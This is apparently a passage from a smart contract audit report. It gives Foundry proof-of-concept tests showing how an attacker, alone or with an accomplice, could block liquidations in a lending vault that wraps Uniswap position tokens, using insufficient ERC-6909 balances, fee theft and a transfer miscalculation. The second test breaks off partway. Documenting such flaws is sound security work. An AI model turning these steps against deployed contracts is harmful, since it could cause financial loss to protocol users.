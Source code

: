 ```solidity
                1
            )
        )
    );

    (maxRepay, yield) = eVault.checkLiquidation(liquidator, attacker, address(wrapper));
    assertTrue(maxRepay > 0);

    startHoax(liquidator);
    evc.enableCollateral(liquidator, address(wrapper));
    evc.enableController(liquidator, address(eVault));

    // @audit-issue => liquidator attempts to liquidate attacker
    // @audit-issue => but transfer reverts due to insufficient ERC-6909 balance of tokenId1
    vm.expectRevert(
        abi.encodeWithSelector(
            bytes4(keccak256("ERC6909InsufficientBalance(address,uint256,uint256,uint256)")),
            attacker,
            wrapper.balanceOf(liquidator, tokenId1),
            wrapper.totalSupply(tokenId1),
            tokenId1
        )
    );
    eVault.liquidate(attacker, address(wrapper), maxRepay, 0);
}
```

* This second PoC uses the fee theft and transfer miscalculation:

```solidity
function test_blockLiquidationsPoC_transferInflation() public {
    address attacker = makeAddr("attacker");
    address accomplice = makeAddr("accomplice");

    LiquidityParams memory params = LiquidityParams({
        tickLower: TickMath.MIN_TICK + 1,
        tickUpper: TickMath.MAX_TICK - 1,
        liquidityDelta: -19999
    });

    (uint256 tokenId1,,) = boundLiquidityParamsAndMint(params);
    (uint256 tokenId2,,) = boundLiquidityParamsAndMint(params);

    startHoax(borrower);

    // 1. attacker wraps tokenId1
    wrapper.underlying().approve(address(wrapper), tokenId1);
    wrapper.wrap(tokenId1, attacker);

    // 2. accomplice wraps tokenId2
    wrapper.underlying().approve(address(wrapper), tokenId2);
    wrapper.wrap(tokenId2, accomplice);

    // 3. swap so that some fees are generated
    swapExactInput(borrower, address(token0), address(token1), 100_000 * unit0);

    // 4. attacker enables tokenId1 as collateral and transfers a small portion to accomplice
    startHoax(attacker);
    wrapper.enableTokenIdAsCollateral(tokenId1);
    wrapper.transfer(accomplice, wrapper.balanceOf(attacker) / 100);

    // 5. accomplice enables tokenId2 as collateral and partially unwraps
    startHoax(accomplice);
    wrapper.enableTokenIdAsCollateral(tokenId2);
```